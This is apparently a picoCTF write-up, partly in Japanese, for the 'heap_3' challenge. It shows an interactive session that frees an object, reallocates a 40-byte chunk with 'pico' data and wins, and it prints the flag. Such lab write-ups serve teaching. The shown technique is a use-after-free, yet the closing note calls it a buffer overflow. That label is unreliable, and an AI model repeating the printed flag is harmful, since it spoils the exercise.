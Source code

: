 # heap_3:binary Medium    
This program mishandles memory. Can you exploit it to get the flag?  
Download the source [here](heap_3.c)  

Additional details will be available after launching your challenge instance.  

# Solution  
バイナリとソースコードが渡される  
freed but still in use  
now memory untracked  
do you smell the bug?  

1. Print Heap  
2. Allocate object  
3. Print x->flag  
4. Check for win  
5. Free x  
6. Exit  

Enter your choice: 5  

1. Print Heap  
2. Allocate object  
3. Print x->flag  
4. Check for win  
5. Free x  
6. Exit  

Enter your choice: 2  
Size of object allocation: 40  
Data for flag: picopicopicopicopicopicopicopipico  

1. Print Heap  
2. Allocate object  
3. Print x->flag  
4. Check for win  
5. Free x  
6. Exit  

Enter your choice: 3  


x = pico  


1. Print Heap  
2. Allocate object  
3. Print x->flag  
4. Check for win  
5. Free x  
6. Exit  

Enter your choice: 4  
YOU WIN!!11!!  
picoCTF{now_thats_free_real_estate_c1e14587}  

# 考えたこと    
x->flagにバッファオーバーフローでpicoに上書きすれば、４を起動すればFLAGが獲得できると考えた